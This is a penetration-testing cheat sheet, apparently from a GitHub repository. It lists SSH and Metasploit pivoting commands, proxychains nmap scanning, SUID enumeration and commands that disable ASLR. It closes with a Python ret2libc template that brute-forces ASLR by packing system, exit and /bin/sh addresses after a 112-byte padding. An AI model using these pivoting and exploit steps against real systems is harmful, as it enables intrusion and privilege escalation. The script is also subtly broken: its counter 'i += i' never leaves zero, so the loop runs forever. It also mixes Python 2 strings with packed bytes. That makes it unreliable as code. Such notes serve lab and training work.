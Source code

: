 # Useful Commands

## SSH
- Proxy traffic through SSH tunnel: `ssh -D localhost:8000 user@ip`
- Proxy traffic through multiple tunnels:
```bash
ssh -L 9999:localhost:9999 user@<ip>
ssh -D localhost:9999 <ip> -p 25
```
- Proxy traffic through Metasploit: `ssh -L 8000:<remoteIP>:1337 root@<remoteIP>`, then start socks via Metasploit on port `1337`.

## 
- Parse `access.log` file for unique IP addresses: `cat access.log | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | sort -u `

## Starting a SOCKS server via Metasploit
- Add a route to go through a current session
- `use auxiliary/server/socks4a`
- `set srvport <port>`
- `run -j`

## Scanning through Proxychains
- `proxychains nmap -sT -Pn <ip>`

## Linux Enumeration
- `find / -perm -4000 2>/dev/null` - Find files with SUID bit set

## Linux Buffer Overflow

### Creating Unique Patterns
- `msf-pattern_create -l <length>`
- `msf-pattern_offset -q <location>`

### gdb-peda
- `checksec` - checks memory protections enabled on binary
- `b main` - sets a breakpoint at main
- `r <arguments>` - runs the binary with the arguments specified
- `p system` - gets memory address of system
- `p exit` - gets exit address

### Easy check for ASLR
- `ldd <binary> | grep libc` - Run multiple times to see if memory address changes

### Disable ASLR
- As root: `echo 0 > /proc/sys/kernel/randomize_va_space`

### Enable ASLR
- As root: `echo 2 > /proc/sys/kernel/randomize_va_space`

### Identify system offset 
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`

### Identify exit offset
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`

### Identify /bin/sh location
- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`

### Brute Force ASLR Example

```python
from subprocess import call
import struct

libc_base_addr = <address>

system_off = <address>
exit_off = <address>
arg_off = <address>

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)
arg_addr = struct.pack("<I",libc_base_addr+arg_off)

bof = "A" * 112
bof += system_addr
bof += exit_addr
bof += arg_addr

i = 0
while (i <512):
  print "Try: %s" %i
  i += i
  ret = call(["/path/to/binary", bof])
```
